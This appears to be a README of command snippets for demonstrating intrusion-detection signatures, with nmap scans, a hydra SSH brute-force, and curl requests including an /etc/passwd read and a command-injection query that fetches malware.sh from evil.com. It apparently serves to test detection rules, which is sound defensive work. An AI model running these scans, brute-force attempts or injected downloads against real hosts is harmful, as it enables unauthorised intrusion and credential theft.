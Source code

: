 # Scan Signature demo
```bash
sudo apt install nmap
```
```bash
nmap [subnet]
```
```bash
nmap -p 22,80,443 [ip address]
```
```bash
sudo nmap -sS [ip address]
```
```bash
sudo nmap -sF [ip address]
```

# Brute force Signature demo

```bash
sudo apt install hydra
```
```bash
hydra -l [username] -P /path/to/passwords.txt ssh://[ip address]
```
## Exploit Signature demo 

```bash
curl -A "sqlmap/1.5" http://[ip address]:[port]/test
```
```bash
curl http://[ip address]:[port]/etc/passwd
```
```bash
curl http://[ip address]:[port]/etc/passwd
```
```bash
curl http://[ip address]:[port]/$(python3 -c "print('A'*200)")
```
```bash
curl http://[ip address]:[port]/$(python3 -c "print('A'*200)")
```
```bash
curl "http://[ip address]:[port]/?input=hello%3Bwget%20http://evil.com/malware.sh"
```

## Server side prepare
```bash
python3 -m http.server [port]
```